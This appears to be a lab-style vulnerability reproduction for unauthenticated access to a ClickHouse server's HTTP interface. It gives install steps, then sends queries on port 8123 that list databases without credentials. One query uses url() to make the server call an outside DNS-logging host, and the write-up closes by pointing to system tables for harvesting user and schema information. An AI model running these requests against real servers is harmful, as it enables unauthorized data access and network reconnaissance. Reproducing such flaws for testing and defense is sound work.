



# Unauthorized Access Vulnerability in Clickhouse

## Vulnerability Description

A malicious attacker can access the ClickHouse server without providing valid credentials. This may result in unauthorized access to sensitive data or allow the attacker to modify or delete data. **By default, the clickhouse-server will monitor HTTP requests on port 8123 (this can be modified in the configuration).**

## Environment Setup

```
sudo apt-get install -y apt-transport-https ca-certificates dirmngr
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv 8919F6BD2B48D754

echo "deb https://packages.clickhouse.com/deb stable main" | sudo tee \
    /etc/apt/sources.list.d/clickhouse.list
sudo apt-get update

sudo apt-get install -y clickhouse-server clickhouse-client

sudo service clickhouse-server start
clickhouse-client
```

## Vulnerability Reproduction

First, determine if the interface of the ClickHouse database is being used.

```
curl http://192.168.0.5:8123
```

According to the documentation, a normal response is Ok. , and there is an `X-ClickHouse-Summary` as a header in the response package.



Test if you can execute a SQL command, some will fail due to failed unauthenticated execution caused by identity verification.

```
/?query=SHOW%20DATABASES
```



Successfully execute the statement to obtain data, and execute other commands to detect the network.

```
http://192.168.0.5:8123/?query=SELECT%20*%20FROM%20url(%27http://cf1cfb13.dns.1433.eu.org/%27,%20CSV,%20%27column1%20String,%20column2%20UInt32%27)%20LIMIT%203;
```




You can view the execution record table in the system library to quickly locate the information that can be used (obtain sensitive user information, database names, and table names).